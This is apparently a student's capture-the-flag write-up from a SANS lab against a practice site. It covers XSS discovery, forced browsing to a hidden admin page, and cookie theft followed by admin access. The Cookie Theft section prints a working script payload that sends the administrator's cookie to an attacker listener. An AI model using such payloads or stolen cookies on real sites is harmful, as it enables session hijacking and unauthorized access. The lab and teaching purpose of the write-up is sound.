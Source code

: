 # Contact

* Challenge - Interact with the contact form on the http://www.issplaylist.com website. What is the flag returned as the reference number?
* Points - 3

First, I navigated to the website in the question. From there, I clicked "Contact" in the navbar at the top of the site to go to the contact form. After that, I submitted the form with expected input to get the flag. 

![Contact-1](https://github.com/user-attachments/assets/554573b6-cf11-4d39-a61c-cf6ef2dabf2f)

![Contact-2](https://github.com/user-attachments/assets/b3b72e0c-c945-4e90-9853-8fc67ccccce5)


# Vulnerability Discovery

* Challenge - Explore the Contact page on the http://www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.
* Points - 5

First, I tried experiemnting with including a ' in the fields to get an SQL error. That did not work, as I got the same flag as the previous challenge. 

![Vulnerability-Discovery-1](https://github.com/user-attachments/assets/9e6c2acb-21c3-492b-bed5-c3d5f6de6aa3)

Then I tested for a different input based vulnerability by typing the hr HTML tag into each field of the contact form. I noticed the horizontal line from the hr HTML tag was displayed on the page. 

![Vulnerability-Discovery-2](https://github.com/user-attachments/assets/da88e1ea-a407-428c-8be7-c17f6c381823)

This means my input was reflected on the page. To confirm this, I viewed the page source, and used CTRL + F to look for my input, the hr HTML tag. The page source shows my input.  

![Vulnerability-Discovery-3](https://github.com/user-attachments/assets/5fcfa96a-4913-4b4c-9a2b-12733f806139)


# Forced Browsing

* Challenge - Identify the hidden page on the http://www.issplaylist.com server. Submit the page name (XXXXX.html).
* Points - 5

Typically, administrators pages are hidden from normal users. If a web server is misconfigured, you can just go straight to the administrator page with a forced browsing attack. From the question, we know the page name is five characters. With that knowledge, I find the answer.  

![Forced-Browsing-1](https://github.com/user-attachments/assets/3d6c7c7c-4629-4a5d-a35c-6871f3924e4f)


# Cookie Theft

* Challenge - Administrators for the http://www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?
* Points - 5

From the Vulnerability Discovery challenge, I know the site is vulnerable to a specific input based attack. In Lab 4.4 from this course, SANS supplied to us a cookiecatcher PHP file. I started a PHP web server to listen for the cookie.

![Cookie-Theft-1](https://github.com/user-attachments/assets/651eb28a-e077-49d8-a4f3-647beb1cce5c)

After starting the listener on my attacker terminal, I went back to the browser. At the contact form, I put the following string in all of the fields then submited the form - ```<script>document.location='http://10.142.148.12:2222/?'+document.cookie;</script>```

![Cookie-Theft-2](https://github.com/user-attachments/assets/92775db5-f99f-4975-bead-2d2a6ef18727)

Going back to my attacker terminal, where the cookiecatcher PHP file is running, I can see the name of the stolen cookie. 

![Cookie-Theft-3](https://github.com/user-attachments/assets/96974117-4f82-4657-acc7-190582a682f6)


# Unauthorized Access

* Challenge - Use the stolen cookie to access the admin page. Submit the flag.
* Points - 5

Now that I have the cookie for admin from the Cookie Theft challenge, I can use curl with the -b argument to specify a token and return the content of that page as if I were logging in as an administrator. In my attacker terminal, I ran a curl command to get access to the admin page.

This returned the administrator page output. I scroll down to see the flag. 

![Unauthorized-Access-1](https://github.com/user-attachments/assets/32a2744e-00b6-4bba-a965-428df3bed6e4)

![Unauthorized-Access-2](https://github.com/user-attachments/assets/f342c0ec-3b34-451e-b4e8-10c872c88e94)

